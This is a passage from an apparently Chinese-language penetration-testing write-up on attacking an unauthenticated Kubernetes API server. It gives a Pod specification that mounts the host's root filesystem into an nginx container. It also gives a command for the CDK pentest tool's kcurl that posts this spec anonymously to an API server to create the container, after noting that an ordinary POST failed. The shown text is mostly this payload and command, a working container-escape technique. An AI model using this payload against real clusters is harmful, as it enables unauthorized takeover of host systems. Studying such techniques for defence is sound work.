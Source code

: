 #### 通过 cdk 工具传输创建 Pod

创建特权容器

```plain
https://192.168.108.100:6443/api/v1/namespaces/default/pods/test-1
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-1\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-1\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-1","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
```

利用正常的 POST 传输似乎无法成功[![](assets/1701678402-e4467523ed797c53f6f3971e4e062371.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190918-e7a42dba-8f70-1.png)  
利用渗透工具 cdk 再次尝试

> [https://github.com/cdk-team/CDK/releases/tag/v1.5.2](https://github.com/cdk-team/CDK/releases/tag/v1.5.2)

```plain
./cdk_linux_amd64 kcurl anonymous post 'https://192.168.108.100:6443/api/v1/namespaces/default/pods?filedManager=kubectl-client-side-apply' '{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-1\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-1\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-1","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}'
```
